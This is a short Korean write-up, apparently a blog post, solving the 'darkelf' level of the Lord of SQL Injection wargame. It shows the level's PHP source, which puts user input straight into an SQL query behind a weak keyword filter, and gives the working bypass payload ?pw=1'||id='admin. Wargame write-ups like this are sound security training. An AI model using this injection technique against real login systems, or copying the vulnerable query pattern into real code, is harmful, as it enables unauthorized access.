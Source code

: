 ```yaml
---
layout: post
title: ! "[LOS] darkelf"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darkelf
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/darkelf.png)

`query : select id from prob_darkelf where id='guest' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

darkelf 문제는 지금까지의 문제를 잘 풀어냈다면 한 번에 풀 수 있다.
지금까지는 ?pw=1' or id='admin 이런 식으로 풀어지만 이 문제에서는 or와 and가 필터링 되어있다.
그렇다면 or와 and를 대신 할 무언가가 있어야 한다.

or = ||
and = && 으로 대체해주자.

`?pw=1'||id='admin`

![]({{ site.baseurl }}/assets/posts/los/darkelf_clear.png)

